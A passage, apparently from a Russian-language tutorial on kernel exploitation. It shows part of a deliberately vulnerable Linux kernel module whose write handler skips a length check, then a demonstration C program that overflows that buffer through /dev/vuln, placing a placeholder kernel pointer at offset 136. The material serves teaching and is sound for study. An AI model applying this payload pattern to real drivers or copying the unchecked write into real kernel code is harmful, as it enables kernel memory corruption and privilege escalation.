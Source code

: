 ```c
static void __exit vuln_exit(void) {
    unregister_chrdev(240, "vuln");
    printk(KERN_INFO "Уязвимый модуль выгружен\n");
}

module_init(vuln_init);
module_exit(vuln_exit);
MODULE_LICENSE("GPL");
```

В этом коде функция `vuln_write` не проверяет, что значение `len` не превышает размер `kernel_buffe`r, что открывает возможность переполнения буфера и потенциального изменения критичных данных, находящихся в смежных областях памяти.

### 5.2 Демонстрация принципа формирования полезной нагрузки

Ниже приведён демонстрационный фрагмент пользовательского кода на C, который иллюстрирует, как можно теоретически сформировать полезную нагрузку для переполнения буфера. Обратите внимание, что параметры, такие как смещение и адрес, приведены условно и используются только для демонстрации принципа:

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

#define DEVICE "/dev/vuln"
#define EXPLOIT_SIZE 256

int main() {
    int fd = open(DEVICE, O_WRONLY);
    if (fd < 0) {
        perror("open");
        return -1;
    }

    char payload[EXPLOIT_SIZE];
    memset(payload, 'A', EXPLOIT_SIZE);

    /* 
       Допустим, что смещение до критичного указателя составляет 136 байт.
       В эту позицию вставляется адрес условной полезной нагрузки (например, ROP-чейн или shellcode).
       Данный адрес является условным и используется лишь для иллюстрации.
    */
    unsigned long fake_ptr = 0xffffffff81012345;  // Пример адреса в ядре
    memcpy(payload + 136, &fake_ptr, sizeof(fake_ptr));

    if (write(fd, payload, EXPLOIT_SIZE) < 0) {
        perror("write");
        return -1;
    }
    close(fd);
    printf("Демонстрация отправки полезной нагрузки завершена\n");
    return 0;
}
```
